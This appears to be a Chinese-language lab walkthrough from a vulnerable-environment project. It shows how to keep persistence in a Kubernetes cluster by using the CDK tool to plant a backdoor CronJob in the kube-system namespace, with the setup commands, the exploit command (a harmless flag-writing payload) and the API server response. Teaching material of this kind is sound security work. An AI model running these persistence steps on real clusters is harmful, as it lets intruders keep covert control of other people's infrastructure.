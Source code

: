 # 部署K8s后门CronJob

## 场景介绍

Cronjob是K8s集群的一种资源，类似于Linux系统中的cron任务，可在指定的时间间隔内运行任务，创建一个或多个Pod副本。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用K8s Cronjob资源的特性，创建一个kube-system命名空间下的Cronjob资源，进行持久化控制。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install k8s_backdoor_cronjob
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`k8s-backdoor-cronjob`的pod。

## 漏洞复现

下载漏洞利用工具[CDK](https://github.com/cdk-team/CDK)，将其传入`k8s-backdoor-cronjob`pod中：

```
sudo kubectl cp cdk k8s-backdoor-cronjob:/ -n metarget
```

执行以下命令运行工具（该命令会每隔一分钟在kubs-system命名空间下创建一个pod执行指定命令）：

```
sudo kubectl exec -it k8s-backdoor-cronjob /cdk run k8s-cronjob default min ubuntu "date > /tmp/flag ; sleep 10000"
```

查看执行结果包含以下字段则部署成功，也可通过运行`sudo kubectl get cronjobs -n kube-sytem | grep cdk` 验证部署结果。

```
api-server response:
{"kind":"CronJob","apiVersion":"batch/v1beta1","metadata":{"name":"cdk-backdoor-cronjob","namespace":"kube-system","selfLink":"/apis/batch/v1beta1/namespaces/kube-system/cronjobs/cdk-backdoor-cronjob","uid":"e2fa6c8a-e05f-4d33-b6f7-4c1c9a54954f","resourceVersion":"7656","creationTimestamp":"2022-08-26T10:18:15Z"},"spec":{"schedule":"* * * * *","concurrencyPolicy":"Allow","suspend":false,"jobTemplate":{"metadata":{"creationTimestamp":null},"spec":{"template":{"metadata":{"creationTimestamp":null},"spec":{"containers":[{"name":"cdk-backdoor-cronjob-container","image":"ubuntu","args":["/bin/sh","-c","date \u003e /tmp/flag ; sleep 10000"],"resources":{},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent"}],"restartPolicy":"OnFailure","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","securityContext":{},"schedulerName":"default-scheduler"}}}},"successfulJobsHistoryLimit":3,"failedJobsHistoryLimit":1},"status":{}}
```

注：复现后请及时清除相关资源。

## 参考文献

1. https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-cronjob